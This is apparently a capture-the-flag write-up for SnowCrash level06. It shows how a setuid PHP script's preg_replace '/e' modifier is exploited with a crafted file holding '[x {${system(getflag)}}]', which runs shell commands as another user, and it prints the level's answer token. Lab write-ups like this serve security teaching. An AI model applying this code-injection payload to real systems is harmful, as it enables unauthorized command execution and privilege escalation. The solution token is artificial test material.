 # Level06

## Hint

Use a [PHP beautifier](https://codebeautify.org/php-beautifier) to format the code and a [regex explainer](https://regex101.com/) to understand the regex.

## Answer

Let's check our current directory:
```
level06@SnowCrash:~$ ll
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout*
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc*
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
-r-x------  1 level06 level06  675 Apr  3  2012 .profile*
```

Alright we have a PHP code file and it's executable. Let's look at the PHP code first:
```php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

I will use a [PHP beautifier](https://codebeautify.org/php-beautifier) to format the code and make it more readable:
```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>
```

Perfect ! We notice that the PHP code requires two parameters, it will try to open the first one so we need to give it a valid path to a file. After more analysis and the use of a [regex explainer](https://regex101.com/), we realize that the second parameter is useless and so is most of the code and only this line will be exploitable:
```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

From [this article](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace) I learned that the `e` modifier can be used to execute code. First let's match the regex:
```
level06@SnowCrash:~$ echo [x hey] > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
hey
```

Great ! We can also use the `${}` PHP syntax to turn our string into a variable:
```
level06@SnowCrash:~$ echo '[x ${hey}]' > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: hey in /home/user/level06/level06.php(4) : regexp code on line 1
```

Perfect ! Now all we have to do is execute the `system` or `exec` PHP functions to execute shell commands:
```
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
